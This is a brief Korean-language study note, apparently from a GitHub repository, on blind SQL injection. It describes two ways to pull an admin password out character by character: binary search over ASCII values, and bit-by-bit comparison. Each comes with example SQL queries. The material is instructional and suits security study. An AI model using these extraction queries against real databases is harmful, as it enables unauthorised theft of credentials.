


## *1. SQL Injection Advanced*
### 1) Blind SQL Injection
#### 이진 탐색 (Binary Search)
    - 범위 지정 (Specify scope): 32 ~ 126
    - 범위 조절 (Range control): P(80) > 79 (P@$$w0rD)
>```sql
>SELECT * FROM users WHERE username = 'admin' AND ascii(substr(password, 1, 1)) > 79;
>```
> 

#### Bit 연산
    - ASCII는 0부터 127 범위의 문자를 표현할 수 있으며, 이는 곧 7개의 비트를 통해 하나의 문자로 나타낼 수 있는것을 의미 함. (0000000 ~ 1111111)
    - ASCII P(1010000): 첫번째 비트부터 마지막 비트까지 비교하여 ASCII 문자를 유추해냄
>```sql
>SELECT password FROM users WHERE username = 'admin' AND substr(bin(ord(password)), 1, 1)
>SELECT password FROM users WHERE username = 'admin' AND substr(bin(ord(password)), 2, 1)
>```
> 

<span class="text-red">※ 이진 탐색 : 이미 정렬된 리스트에서 임의의 값을 효율적으로 찾기 위한 알고리즘 (Blind SQL Injection에서 데이터 추출해 내는데 사용할 수 있음)</span>

---